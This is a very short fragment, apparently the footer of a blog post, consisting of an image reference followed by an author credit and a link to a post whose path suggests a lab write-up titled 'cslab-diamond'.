


---

> Author: [L1nq](https://github.com/L1nq0)  
> URL: https://sw1mblu3.fun/posts/cslab-diamond/  

